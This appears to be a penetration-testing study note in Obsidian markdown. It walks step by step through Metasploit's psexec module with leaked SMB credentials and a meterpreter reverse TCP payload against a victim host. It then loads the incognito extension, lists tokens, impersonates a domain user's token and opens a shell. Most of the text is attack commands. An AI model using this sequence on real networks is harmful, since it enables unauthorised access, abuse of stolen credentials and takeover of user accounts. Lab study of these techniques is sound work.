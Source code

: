 
## Step 1 : use metasploit
We can use metasploit:
```bash
msfconsole

search psxexec

use 4 

set payload windows/x64/meterpreter/reverse_tcp

set rhosts VICTIM_IP

set smbuser username_leaked

set smbpass leaked_pass

set smbdomain DOMAIN

run

```
- ![[Pasted image 20250113152414.png]]


Now we have to load the `Incognito` mode into metasploit:
```bash
whoami (to see if it worked)

load incognito
```
- ![[Pasted image 20250113152434.png]]
- to work the user must be logged into the victim host
- `load + tab ` must show the alternatives



**==Now we can start to list tokens (the ones we can impersonate): ==**
```bash
list_tokens -u
```
- `-g` to show groups instead users
- ![[Pasted image 20241220123122.png]]

**==At this point we can impersonate the token of a user:==**
```bash
impersonate_token DOMAIN\\username
```
- at this point we are impersonating it
- ![[Pasted image 20241220123205.png]]


Now with this we can obtain a shell:
```bash
shell
```
- ![[Pasted image 20250113152551.png]]
